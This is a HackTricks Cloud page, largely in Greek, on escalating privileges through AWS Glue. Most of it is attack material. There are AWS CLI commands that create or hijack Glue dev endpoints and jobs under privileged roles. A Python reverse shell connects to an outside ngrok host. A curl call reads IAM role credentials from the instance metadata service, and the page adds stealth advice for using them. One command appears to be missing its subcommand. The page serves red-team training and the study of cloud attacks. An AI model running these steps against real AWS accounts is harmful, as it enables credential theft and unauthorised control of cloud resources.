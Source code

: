 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν **να ρυθμίσουν ένα νέο AWS Glue development endpoint**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να αναληφθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το endpoint.

Μετά τη ρύθμιση, ο **επιτιθέμενος μπορεί να SSH στην περίπτωση του endpoint**, και να κλέψει τα IAM διαπιστευτήρια του ανατεθέντος ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για σκοπούς μυστικότητας, συνιστάται η χρήση των IAM διαπιστευτηρίων από μέσα της εικονικής μηχανής Glue.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που έχει καθοριστεί.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Χρήστες με αυτή την άδεια μπορούν να **αλλάξουν το υπάρχον κλειδί SSH** του σημείου ανάπτυξης Glue, **επιτρέποντας την πρόσβαση μέσω SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί εντολές με τα δικαιώματα του συνημμένου ρόλου του σημείου ανάπτυξης:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Χρήστες με **`iam:PassRole`** σε συνδυασμό με είτε **`glue:CreateJob` είτε `glue:UpdateJob`**, και είτε **`glue:StartJobRun` είτε `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν μια εργασία AWS Glue**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της εργασίας. Οι δυνατότητες της εργασίας περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, ο οποίος μπορεί να εκμεταλλευτεί για να εγκαταστήσει ένα reverse shell. Αυτό το reverse shell μπορεί στη συνέχεια να χρησιμοποιηθεί για να εξάγει τα **διαπιστευτήρια IAM** του ρόλου που συνδέεται με την εργασία Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες με βάση τις άδειες αυτού του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Μόνο με την άδεια ενημέρωσης, ένας επιτιθέμενος θα μπορούσε να κλέψει τα IAM Credentials του ήδη συνημμένου ρόλου.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που είναι συνημμένος.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
